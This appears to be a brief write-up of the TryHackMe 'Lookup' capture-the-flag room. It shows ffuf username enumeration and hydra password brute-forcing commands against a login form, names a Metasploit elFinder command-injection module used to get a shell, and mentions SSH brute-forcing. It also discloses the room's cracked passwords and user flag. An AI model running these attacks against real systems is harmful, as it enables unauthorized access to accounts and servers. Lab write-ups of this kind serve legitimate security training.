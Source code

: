 Room site -> https://tryhackme.com/r/room/lookup

Add lookup.thm to your `/etc/hosts` file
Found that the username is `admin` just by hit and trail.
## We can use Ffuz to enumirate and achieve this
```bash
$ ffuf -u 'http://lookup.thm/login.php' -H 'Content-Type: application/x-www-form-urlencoded' -X POST -d 'username=FUZZ&password=test' -w /usr/share/seclists/Usernames/Names/names.txt -mc all -ic -fs 74 -t 100
...
admin                   [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 90ms]
jose                    [Status: 200, Size: 62, Words: 8, Lines: 1, Duration: 132ms]
```
Cracking `admin` doesnt seem easy. meanwhile `jose` password is cracked.
## Password Cracking
```bash
hydra -l jose -P /usr/share/wordlists/rockyou.txt lookup.thm http-post-form "/login.php:username=^USER^&password=^PASS^:Wrong" -f
```
Here is the resppnse
`[80][http-post-form] host: lookup.thm   login: jose   password: password123`

After loggig in i observe that there is a redirect to `files.lookup.thm`
Add `files.lookup.thm` to your `/etc/hosts/` file.

## The exploit i have used
msf6 exploit(unix/webapp/elfinder_php_connector_exiftran_cmd_injection)
Exploit I have used and got a shell.
```bash
www-data@lookup:/home/think$
```
Since we can see the username `think` and the ssh port is open as well. so i decided to bruteforce the password for ssh. 
And got the passowrd.. `josemario.AKA(think)`

## user.txt
38375fb4dd8baa2b2039ac03d92b820e
